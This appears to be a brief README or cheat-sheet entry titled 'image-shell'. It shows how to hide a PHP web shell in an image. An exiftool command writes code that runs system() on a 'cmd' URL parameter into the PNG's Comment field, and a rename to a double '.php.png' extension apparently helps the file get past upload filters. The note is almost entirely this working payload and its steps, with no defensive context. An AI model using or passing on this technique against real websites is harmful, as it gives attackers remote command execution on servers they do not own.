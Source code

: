 # image-shell
```
exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' image.png
```
Exiftool is a great tool to view and manipulate exif-data. Then I had to rename the file

mv image.png image.php.png
